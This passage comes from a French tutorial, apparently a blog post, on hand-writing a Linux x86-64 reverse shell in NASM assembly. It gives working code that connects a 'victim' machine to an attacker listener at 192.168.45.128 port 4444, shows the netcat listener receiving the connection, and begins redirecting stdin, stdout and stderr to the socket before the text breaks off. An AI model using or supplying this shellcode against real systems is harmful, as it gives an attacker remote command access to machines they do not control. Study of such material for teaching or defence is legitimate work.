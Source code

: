 Je vais pour ce faire, utiliser un registre qui ne sera pas modifié pendant toute la durée de vie du programme et qui va représenter ce file descriptor pointant vers le socket : le registre r8.

```nasm
mov r8, rax
```

## SYS_CONNECT

On va ensuite connecter la machine victime au serveur distant contrôlé par l’attaquant en utilisant le syscall SYS_CONNECT :

```nasm
sub rsp, 8 ; On prépare un buffer de 8 octet sur la stack pour stocker la structure d'adresse
mov BYTE[rsp],0x2 ; On place le domaine 2 (AF_INET) dans le premier octet du buffer
mov WORD[rsp+0x2],0x5c11 ; On place le port 4444 en little-endian 
;4444 en héxa = 115c mais en assembleur on inverse tous les octets
mov DWORD[rsp+0x4], 0x802da8c0 ; Place l'adresse IP (192.168.45.128) en little-endian
mov rsi, rsp ; RSI prend une adresse vers une structure. 
;Ici la structure est sur la stack (RSP) donc RSI prend la valeur de l'adresse de RSP
mov rdx, 16 ;RDX prend la valeur 16 qui corresponds à la taille de la structure
push r8 ; On push sur la stack la valeur du file descriptor du socket
pop rdi ; On la récupère dans le registre RDI. Ici, RDI = file descriptor du socket
mov rax, 42 ; RAX prend la valeur 42 (numéro du syscall SYS_CONNECT)
syscall
```

A ce stade, si le programme fonctionne bien, lorsque l’on execute notre programme assembleur et qu’on lance un listener (netcat) sur un autre terminal, on reçoit ce message : 

```bash
┌──(dropa㉿kali)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.45.128] from (UNKNOWN) [192.168.45.128] 43262
```

L’ordinateur victime s’est bien connecté à notre listener.

Nous allons maintenant dupliquer et rediriger les trois file descriptor de Linux vers notre tunnel pour les rediriger vers le listener et vice versa.

## SYS_DUP2

Le file descriptor de l’entrée utilisateur (ce qui est saisi au clavier), qui est STDIN (0).

Le file descriptor de la sortie utilisateur (par exemple, ce qui est affiché dans le terminal), qui est STDOUT (1).

Le file descriptor des erreurs (par exemple, afficher que l’on a pas les droits nécessaires pour accéder à un fichier)  qui est STDERR (2).

Nous allons appeler trois fois l'appel système SYS_DUP2, à chaque fois avec un descripteur de fichier à dupliquer, vers notre socket. Cela aura pour effet de rediriger la sortie standard, l'entrée standard et les erreurs standard vers notre tunnel, permettant ainsi la communication avec notre listener :
